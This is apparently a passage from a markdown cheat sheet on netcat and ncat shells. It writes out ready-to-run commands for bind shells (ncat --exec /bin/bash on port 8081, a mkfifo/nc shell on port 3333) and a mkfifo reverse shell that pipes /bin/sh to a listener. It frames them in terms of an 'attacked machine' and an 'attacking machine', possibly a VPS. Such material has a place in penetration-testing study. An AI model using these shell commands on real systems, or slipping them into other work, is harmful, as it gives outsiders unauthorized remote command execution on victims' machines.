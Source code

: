 
```sh
ncat --exec "/bin/bash" -l 8081 --keep-open
 # Bind to TCP port
 # 8081 and attach /bin/bash for the world to access freely
```

```sh
ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open
 # Bind a shell to TCP port 8081, limit access to
 # hosts on a local network, and limit the maximum number of
 # simultaneous connections to 3
```

## Bind Shell with minimal Netcat (nc without --exec or -e)

![Bind Shell](img/Bind_Shell_Scenario.png)

Bind shell is a common scenario, we can think about a classical "
ssh-like" session when we think about bind shells. On the
attacked machine (the one on which we would like to talk) we
should execute:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 3333 > /tmp/f
 # keeps an opened port, in this case "3333" to
 # execute commands from a remote machine
```

on the attacking machine (the one from where we will issue
commands) instead we execute:

```sh
nc 127.0.0.1 3333
```

Bind Shell and Reverse Shell can be more elegant by using ssl, in
order to not let other decrypt the traffic.


## Reverse Shell with minimal Netcat (nc without --exec or -e)

![Reverse Shell](img/Reverse_Shell_Scenario.png)

On the attacking machine (which could be a VPS) we execute:

```sh
nc -nlvp 3333
 # this is the local machine on which we keep a
 # port opened to issue commands and view the output
```

On the attacked machine we have to issue:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 127.0.0.1 3333 > /tmp/f
 # this has to be issued on the attacked machine
```

now from the attacking machine we can issue commands and see output.


